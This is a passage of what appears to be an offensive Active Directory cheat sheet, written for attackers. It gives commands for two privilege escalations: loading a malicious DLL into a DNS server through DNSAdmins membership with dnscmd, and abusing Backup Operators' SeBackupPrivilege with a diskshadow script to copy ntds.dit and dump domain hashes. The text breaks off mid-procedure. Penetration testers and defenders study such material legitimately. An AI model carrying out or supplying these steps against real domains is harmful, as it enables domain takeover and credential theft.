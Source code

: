 Detailed Articles:
 - [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
 - [RESOURCE-BASED CONSTRAINED DELEGATION ABUSE](https://blog.stealthbits.com/resource-based-constrained-delegation-abuse/)
### DNSAdmins Abuse

*WUT IS DIS ?: If a user is a member of the DNSAdmins group, he can possibly load an arbitary DLL with the privileges of dns.exe that runs as SYSTEM. In case the DC serves a DNS, the user can escalate his privileges to DA. This exploitation process needs privileges to restart the DNS service to work.*
  
1) Enumerate the members of the DNSAdmins group:
   - PowerView: `Get-NetGroupMember -GroupName "DNSAdmins"`
   - AD Module: `Get-ADGroupMember -Identiny DNSAdmins`
2) Once we found a member of this group we need to compromise it (There are many ways).
3) Then by serving a malicious DLL on a SMB share and configuring the dll usage,we can escalate our privileges:
   ```
   #Using dnscmd:
   dnscmd <NameOfDNSMAchine> /config /serverlevelplugindll \\Path\To\Our\Dll\malicious.dll
  
   #Restart the DNS Service:
   sc \\DNSServer stop dns
   sc \\DNSServer start dns
   ```
### Abusing Active Directory-Integraded DNS
 - [Exploiting Active Directory-Integrated DNS](https://blog.netspi.com/exploiting-adidns/)
 - [ADIDNS Revisited](https://blog.netspi.com/adidns-revisited/)
 - [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
### Abusing Backup Operators Group

*WUT IS DIS ?: If we manage to compromise a user account that is member of the Backup Operators 
group, we can then abuse it's SeBackupPrivilege to create a shadow copy of the current state of the DC, 
extract the ntds.dit database file, dump the hashes and escalate our privileges to DA.*
  
1) Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow:
  
```
#Create a .txt file that will contain the shadow copy process script
Script ->{
set metadata c:\<PathToSave>metadata.cab
set context clientaccessible
set context persistent
begin backup
add volume c: alias mydrive
create
expose %mydrive% w:
}
```
2) Next we need to access the shadow copy, we may have the SeBackupPrivilege but we cant just 
simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we are 
going to use [this](https://github.com/giuliano108/SeBackupPrivilege) amazing repo:
```
#Importing both dlls from the repo using powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
  
#Checking if the SeBackupPrivilege is enabled
Get-SeBackupPrivilege
  
#If it isn't we enable it
```